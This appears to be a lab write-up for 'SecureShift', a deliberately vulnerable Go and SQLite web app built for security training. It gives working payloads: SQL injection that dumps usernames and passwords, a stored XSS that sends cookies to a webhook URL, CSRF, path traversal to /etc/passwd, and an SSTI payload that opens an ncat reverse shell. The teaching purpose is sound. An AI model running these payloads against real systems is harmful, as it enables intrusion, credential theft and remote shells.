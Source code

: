 This project is the intentionally vulnerable web application **“SecureShift”** prepared for educational purposes. Its goal is to provide a hands‑on environment to experience common web security vulnerabilities (OWASP Top 10 and similar) as part of security testing practice.

The application is implemented using the **Go language** and an **SQLite database**. It can operate in two different modes: “Secure” and “Insecure”.

---

## Contents

- SQL Injection (Union‑based)
- Stored & DOM XSS
- CSRF
- Insecure Deserialization
- SSRF + JWT Bypass + OS Command Injection
- SSTI
- XXE
- IDOR, Path Traversal & Information Disclosure
- File Upload Vulnerabilities

---

# SQL Injection

By repeatedly trying `'` characters, an error‑based behavior was observed and the database was identified as **SQLite**.

![[1.png]]

```sql
'
```

![[2.png]]

```sql
' UNION SELECT 1, name, 3, 4, 5 FROM sqlite_master--
```

![[3.png]]

```sql
' UNION SELECT 1, name, 3, 4, 5 FROM sqlite_master WHERE type='table'--
```

![[4.png]]

```sql
' UNION SELECT 1, sql, 3, 4, 5 FROM sqlite_master WHERE name='users'--
```

![[5.png]]

```sql
' UNION SELECT 1, name||': '||type, 3, 4, 5 FROM pragma_table_info('users')--
```
  
![[6.png]]

```sql
' UNION SELECT 1, username, password, email, 5 FROM users--
```

---

# Stored & DOM XSS

## Stored XSS

A payload submitted to the comments section was persisted by the application and rendered to all users.

PoC payload (cookie exfiltration via webhook):

```html
<script>new Image().src="https://webhook.site/80c6d65e-4b78-4678-9217-7f3e1efca2ee?c="+document.cookie;</script>
```

![[7.png]]  
![[8.png]]

## DOM XSS

A payload was executed in URL fragments or other DOM‑interactive areas:

```
http://localhost:3000/product-detail.html?id=3#<svg/onload=alert('DOMXSS')>
```

![[9.png]]  
![[10.png]]

---

# CSRF

The `/api/password-reset` endpoint was left open to operate via GET in insecure mode; this enabled CSRF PoC attempts.

PoC example (GET):

```
http://localhost:3000/api/password-reset?password=hackedByPng
```

The response and its effect after the request were visualized.

![[11.png]]  
![[12.png]]  
![[13.png]]  
![[14.png]]  
![[15.png]]

Note: This PoC can be automated via a page such as `evil.html`.

---

# Insecure Deserialization

During a profile update request (e.g., JSON/form data), the `role` field was tampered with. The manipulated deserialized data was applied on the backend, resulting in a persistent privilege escalation (role: admin).

![[16.png]]  
![[17.png]]  
![[18.png]]  
![[19.png]]
![[20.png]]

---

# SSRF + JWT Bypass + OS Command Injection

- The `AvatarFromURL` / URL‑based upload point was identified as usable for SSRF.
- JWT verification was bypassed using an `alg: "none"` vulnerability, which allowed skipping signature verification.
- While performing SSRF calls to `/admin/ping`, OS Command Injection vectors were leveraged to execute commands from the admin panel.

![[21.png]]  
![[22.png]]  
![[23.png]]  
![[24.png]]  
![[25.png]]  
![[26.png]]  
![[27.png]]  
![[28.png]]

This chained PoC begins with JWT bypass, accesses internal resources via SSRF, and then achieves a shell through OS Command Injection.

---

# SSTI

By providing input directly to the template engine, server‑side code execution was achieved. Example payloads:

```js
{{Now}}
{{Env "HOME"}}
{{Run "ncat 172.20.10.3 5555 -e zsh"}}
```

![[29.png]]  
![[30.png]]  
![[31.png]]  
![[32.png]]

---

# XXE

The XML processing point allowed external entity inclusion, and with a sample PoC the server filesystem was read.

![[33.png]]  
![[34.png]]  
![[35.png]]

---

# IDOR, Path Traversal & Information Disclosure

- Invoices opened from `invoices.html` are fetched via `http://localhost:3000/downloadFile?invoiceID=`.
- In insecure mode, the `invoiceID` parameter was not validated as a numeric type; this allowed unauthorized access to other users' invoices (IDOR).

Examples:

- Elliot's invoice: `invoiceID=2`.  
    ![[36.png]]
    
- Tyrell Wellick's invoice was accessed with `invoiceID=1`.  
    ![[37.png]]
    
- Accessing system files via Path Traversal:

```
http://localhost:3000/downloadFile?invoiceID=../../../../../../../../../etc/passwd
```

![[38.png]]

- This permitted reading sensitive system information and led to information disclosure.

---

# File Upload Vulnerabilities

- Profile picture uploads are accepted via `profile.html`.
- **Secure mode**: only `.jpg`, `.jpeg`, and `.png` extensions and MIME type checks are enforced.
- **Insecure mode**: no validation is performed; all extensions are accepted — this allows uploading malicious files and/or RCE (e.g., a php file).

![[39.png]]  
![[40.png]]

